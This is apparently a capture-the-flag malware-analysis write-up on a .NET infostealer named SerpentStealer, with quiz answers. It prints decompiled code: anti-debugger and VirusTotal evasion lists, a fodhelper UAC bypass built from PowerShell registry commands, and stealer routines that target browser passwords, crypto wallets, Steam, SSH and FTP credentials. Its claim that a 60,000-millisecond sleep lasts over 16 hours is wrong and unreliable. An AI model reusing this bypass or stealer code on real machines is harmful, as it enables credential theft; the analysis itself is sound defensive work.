





## Description
>Located in the heart of the financial district, a leading multinational company was hit by a sophisticated data theft. Over several months, confidential customer data, proprietary software, and sensitive financial information were stolen. The company's cybersecurity team recently discovered that a "stealer" malware was responsible for the breach. They are analyzing the stealer and trying to protect the company from future attacks.

## Investigation

Checking with PE Studio, there are interesting timestamps placed far in the future.



Also note the debug path, `C:\Users\Aperx\SerpentStealer\Serpent\obj\Release\net7.0\win-x86\linked\Serpent.pdb` indicates that this is a .NET assembly.

Interestingly, this file is described as a DLL with a massive amount of imports and a whopping 0 exports, also very strange.



Investigating Strings shows a ton of suspicious content within this. A few examples.
- An error "Stealing FTP", and steam based API addresses:
```
Credentials  
Error Stealing FTP. (Target may NOT have FTP).  
[-] Target does not have FTP.  
440D7F4D810EF9298D25EDDF37C1F902  
[+] Running steam  
C:\Program Files (x86)\Steam  
config  
loginusers.vdf  
7656[0-9]{13}  
https://api.steampowered.com/ISteamUser/GetPlayerSummaries/v0002/?key=  
&steamids=  
https://api.steampowered.com/IPlayerService/GetOwnedGames/v1/?key=  
&steamid=  
https://api.steampowered.com/IPlayerService/GetSteamLevel/v1/?key=  
Steam session detected  
Steam Identifier:  
Profile URL: https://steamcommunity.com/profiles/
```

- A "hacked" discord link:
```
<================[ Steam Account:  
]>================>  
discord.gg/hacked  
Steam Identifier: {0}  
Display Name: {1}  
Time created: {2}  
Level: {3}
```

- A "Running Stealer" log:
```
[+] Target Appears to not have discord..  
[+] Target has discord installed. Running Stealer..  
MASTERKEY :  
DECRYPTED TOKEN :
```

- Enumerating browser storage folders:
```
\AppData\Local\BraveSoftware\Brave-Browser\User Data\Local State  
Chrome  
\AppData\Local\Google\Chrome\User Data\Local State  
Edge  
\AppData\Local\Microsoft\Edge\User Data\Local State
```

- "fodhelper.exe" for [likely UAC bypass](https://docs-cortex.paloaltonetworks.com/r/Cortex-XDR/Cortex-XDR-Analytics-Alert-Reference-by-Alert-name/Fodhelper.exe-UAC-bypass&ved=2ahUKEwix16WbutuLAxXLAHkGHYHKAU4QFnoECAYQAQ&usg=AOvVaw1Z6kU32rjQo4z0rf_eqjop) and persistance via registry keys:
```
fodhelper.exe  
New-Item  
HKCU:\Software\Classes\ms-settings\Shell\Open\command  
-Force  
New-ItemProperty -Path  
HKCU:\Software\Classes\ms-settings\Shell\Open\command  
-Name  
DelegateExecute  
-Value  
-Force  
Set-ItemProperty -Path  
HKCU:\Software\Classes\ms-settings\Shell\Open\command  
-Name
```

The list goes on.

As this is a dotnet assembly we can use a tool like `dnSpy` to decompile the file contents into an easily readable source code-like format. 



`Evasion` immediately stands out as interesting, and SerpentStealer sounds to be a very likely main function.

Within `Evasion` are three sections: AntiAv, AntiVT, and UAC. AntiAv looks for processes and compares them to a blacklist of processes filled with common malware analysis files:
```cs
namespace Evasion
{
	// Token: 0x0200001B RID: 27
	public static class AntiAv
	{
		// Token: 0x06000038 RID: 56 RVA: 0x00004460 File Offset: 0x00002660
		public static bool IsAvPresent()
		{
			Process[] processes = Process.GetProcesses();
			for (int i = 0; i < processes.Length; i++)
			{
				string processName = processes[i].ProcessName;
				if (AntiAv.blackListedProcesses.Contains(processName))
				{
					return true;
				}
			}
			return false;
		}

		// Token: 0x0400003C RID: 60
		[Nullable(1)]
		public static readonly string[] blackListedProcesses = new string[]
		{
			"ProcessHacker.exe", "httpdebuggerui.exe", "wireshark.exe", "fiddler.exe", "regedit.exe", "cmd.exe", "taskmgr.exe", "vboxservice.exe", "df5serv.exe", "processhacker.exe",
			"vboxtray.exe", "vmtoolsd.exe", "vmwaretray.exe", "ida64.exe", "ollydbg.exe", "pestudio.exe", "vmwareuser.exe", "vgauthservice.exe", "vmacthlp.exe", "vmsrvc.exe",
			"x32dbg.exe", "x64dbg.exe", "x96dbg.exe", "vmusrvc.exe", "prl_cc.exe", "prl_tools.exe", "qemu-ga.exe", "joeboxcontrol.exe", "ksdumperclient.exe", "xenservice.exe",
			"joeboxserver.exe", "devenv.exe", "IMMUNITYDEBUGGER.EXE", "ImportREC.exe", "reshacker.exe", "windbg.exe", "32dbg.exe", "64dbg.exex", "protection_id.exex", "scylla_x86.exe",
			"scylla_x64.exe", "scylla.exe", "idau64.exe", "idau.exe", "idaq64.exe", "idaq.exe", "idaq.exe", "idaw.exe", "idag64.exe", "idag.exe",
			"ida64.exe", "ida.exe", "ollydbg.exe"
		};
	}
}
```

AntiVT appears to be checking for usernames commonly associated with VirusTotal:
```cs
namespace Evasion
{
	// Token: 0x0200001C RID: 28
	public static class AntiVT
	{
		// Token: 0x0600003A RID: 58 RVA: 0x0000468C File Offset: 0x0000288C
		public static bool IsVirusTotal()
		{
			string userName = Environment.UserName;
			return Array.IndexOf<string>(AntiVT.VtPCNames, userName) > -1;
		}

		// Token: 0x0400003D RID: 61
		[Nullable(1)]
		public static readonly string[] VtPCNames = new string[]
		{
			"05h00Gi0", "3u2v9m8", "43By4", "4tgiizsLimS", "6O4KyHhJXBiR", "7wjlGX7PjlW4", "8Nl0ColNQ5bq", "8VizSM", "Abby", "Amy",
			"AppOnFlySupport", "ASPNET", "azure", "BUiA1hkm", "BvJChRPnsxn", "cM0uEGN4do", "cMkNdS6", "DefaultAccount", "dOuyo8RV71", "DVrzi",
			"e60UW", "ecVtZ5wE", "EGG0p", "Frank", "fred", "G2DbYLDgzz8Y", "george", "GjBsjb", "Guest", "h7dk1xPr",
			"h86LHD", "Harry Johnson", "HEUeRzl", "hmarc", "ICQja5iT", "IVwoKUF", "j6SHA37KA", "j7pNjWM", "John", "jude",
			"Julia", "kEecfMwgj", "kFu0lQwgX5P", "KUv3bT4", "Lisa", "lK3zMR", "lmVwjj9b", "Louise", "Lucas", "mike",
			"Mr.None", "noK4zG7ZhOf", "o6jdigq", "o8yTi52T", "OgJb6GqgK0O", "patex", "PateX", "Paul Jones", "pf5vj", "PgfV1X",
			"PqONjHVwexsS", "pWOuqdTDQ", "PxmdUOpVyx", "QfofoG", "QmIS5df7u", "QORxJKNk", "qZo9A", "RDhJ0CNFevzX", "RGzcBUyrznReg", "S7Wjuf",
			"server", "SqgFOf3G", "Steve", "test", "TVM", "txWas1m2t", "umyUJ", "Uox1tzaMO", "User01", "w0fjuOVmCcP5A",
			"WDAGUtilityAccount", "XMiMmcKziitD", "xPLyvzr8sgC", "ykj0egq7fze", "DdQrgc", "ryjIJKIrOMs", "nZAp7UBVaS1", "zOEsT", "l3cnbB8Ar5b8", "xUnUy",
			"fNBDSlDTXY", "vzY4jmH0Jw02", "gu17B", "UiQcX", "21zLucUnfI85", "OZFUCOD6", "8LnfAai9QdJR", "5sIBK", "rB5BnfuR2", "GexwjQdjXG",
			"IZZuXj", "ymONofg", "dxd8DJ7c", "JAW4Dz0", "GJAm1NxXVm", "UspG1y1C", "equZE3J", "BXw7q", "lubi53aN14cU", "5Y3y73",
			"9yjCPsEYIMH", "GGw8NR", "JcOtj17dZx", "05KvAUQKPQ", "64F2tKIqO5", "7DBgdxu", "uHUQIuwoEFU", "gL50ksOp", "Of20XqH4VL", "tHiF2T",
			"sal.rosenburg", "hbyLdJtcKyN1", "Rt1r7", "katorres", "doroth", "umehunt"
		};
	}
}
```

Lastly UAC is for establishing persistence through User Account Control bypass, utilizing fodhelper.exe as previously suspected.
```cs
namespace Evasion
{
	// Token: 0x0200001D RID: 29
	[NullableContext(1)]
	[Nullable(0)]
	public class UAC
	{
		// Token: 0x0600003C RID: 60 RVA: 0x00004B30 File Offset: 0x00002D30
		public static void Bypass(string A_0)
		{
			Process.Start("powershell.exe", UAC.psCMD1).WaitForExit();
			Process.Start("powershell.exe", UAC.psCMD2).WaitForExit();
			Process.Start("powershell.exe", string.Format(UAC.psCMD3, A_0)).WaitForExit();
			Process.Start("powershell.exe", "fodhelper.exe").WaitForExit();
		}

		// Token: 0x0400003E RID: 62
		public static readonly string psCMD1 = "New-Item “HKCU:\\Software\\Classes\\ms-settings\\Shell\\Open\\command” -Force";

		// Token: 0x0400003F RID: 63
		public static readonly string psCMD2 = "New-ItemProperty -Path “HKCU:\\Software\\Classes\\ms-settings\\Shell\\Open\\command” -Name “DelegateExecute” -Value “” -Force";

		// Token: 0x04000040 RID: 64
		public static readonly string psCMD3 = "Set-ItemProperty -Path “HKCU:\\Software\\Classes\\ms-settings\\Shell\\Open\\command” -Name “(default)” -Value \"{0}\" -Force";
	}
}
```

The Modules namespace has several stealer functions:



Finally SerpentStealer, we can see is acting as a main function:
```cs
namespace SerpentStealer
{
	// Token: 0x0200000B RID: 11
	internal class Program
	{
		// Token: 0x0600000F RID: 15 RVA: 0x00002DB8 File Offset: 0x00000FB8
		[NullableContext(1)]
		private static void Main(string[] A_0)
		{
			if (AntiVT.IsVirusTotal())
			{
				Thread.Sleep(60000);
				Environment.Exit(0);
			}
			if (AntiAv.IsAvPresent())
			{
				Thread.Sleep(60000);
				Environment.Exit(0);
			}
			Embed embed = new Embed();
			PasswordStealer passwordStealer = new PasswordStealer();
			HistoryStealer historyStealer = new HistoryStealer();
			AutofillStealer autofillStealer = new AutofillStealer();
			Wallets wallets = new Wallets();
			BookmarkStealer bookmarkStealer = new BookmarkStealer();
			SteamClient steamClient = new SteamClient();
			SSHStealer sshstealer = new SSHStealer();
			FTPStealer ftpstealer = new FTPStealer();
			FileStealer fileStealer = new FileStealer();
			autofillStealer.Run();
			historyStealer.Run();
			embed.Run();
			passwordStealer.Run();
			wallets.Run();
			bookmarkStealer.Run();
			steamClient.GetSteam("C:\\Users\\Aperx\\Desktop").Wait();
			sshstealer.Run();
			ftpstealer.Run();
			fileStealer.Run();
			UAC.Bypass("cmd.exe");
			Console.WriteLine("[+] Program finished.");
		}
	}
}
```

If AntiVT or AntiAv trigger, the program sleeps for 1000 minutes (over 16 hours) then exits. Otherwise it runs through each of the stealers and finishes with establishing persistence via the UAC bypass.
## Answers

### 1. What is the md5 hash for the malware?

We can use `md5sum` in Linux to find the answer quickly and easily:
```bash
$ md5sum sample    
a83230ddced4ae435220d8756cc07be9  sample
```

### 2. What is the name of the list the malware uses to evade detection by the VirusTotal check?

This is found in AntiVT, the readonly string `VtPCNames`

### 3. What is the name of the folder that was used by the malware to collect the password on it?

Within the `PasswordStealer` module:
```cs
string tempPath = Path.GetTempPath();
File.WriteAllText(tempPath + "/serpent/Passwords.txt", text);
string text3 = tempPath + "/serpent/Passwords.txt";
List<string> list = new List<string>();
using (StreamReader streamReader = new StreamReader(new FileStream(text3, FileMode.Open, FileAccess.Read), Encoding.UTF8))
{
	string text4;
	while ((text4 = streamReader.ReadLine()) != null)
	{
		list.Add(text4);
	}
}
```

We can see the folder named `serpent`, storing the passwords to `Passwords.txt`
### 4. What is the first command that the malware uses to bypass the User Account Control (UAC)?

This is looking for the string psCMD1:
```
New-Item “HKCU:\\Software\\Classes\\ms-settings\\Shell\\Open\\command” -Force
```

### 5. How many file extensions does the malware target?

This is likely referring to the `FileStealer`, which has an array of SupportedExtensions:

```cs
public string[] SupportedExtensions = new string[]
{
	"txt", "html", "php", "cs", "py", "json", "c", "cpp", "bat", "cmd",
	"css", "js", "odt", "mp3", "png", "mp4", "gif", "wav", "jpg", "jpeg",
	"nim"
};
```

In total there are 21 extensions.

### 6. What is the first process listed in the blacklisted processes used by the malware?

Back in `AntiAv`, the list begins with the software `ProcessHacker.exe`.

### 7. What is the last wallet name that is targeted by the malware on the list?

In `Wallets`, there is a list of targeted wallet things:

```cs
string[] array2 = new string[]
{
	"zcash", "armory", "bytecoin", "liberty", "exodus", "keystore", "electrum", "atomic", "guarda", "coinomi",
	"feather"
};
```

`feather` is the final entry on this list.
### 8. After getting the current user, what is the subkey used by the malware to dump FTP credentials?

Interestingly the `FTPStealer` section was outside the usual `Modules` location:



Alas we can see the following registry key location:
```cs
string text = "Software\\Microsoft\\FTP";
string text2 = "Credentials";
```

## Impact

The malware itself is very well described on its own. After checking for common VirusTotal usernames in `AntiVT` and common analysis programs in `AntiAv` if none are detected it proceeds in running all of the stealer functions. With a final goodbye, UAC bypass is used to modify registry keys. It is interesting to note that although this malware acts to collect private information from various sources, it does not have the ability to send the data anywhere (no exfiltration capabilities).

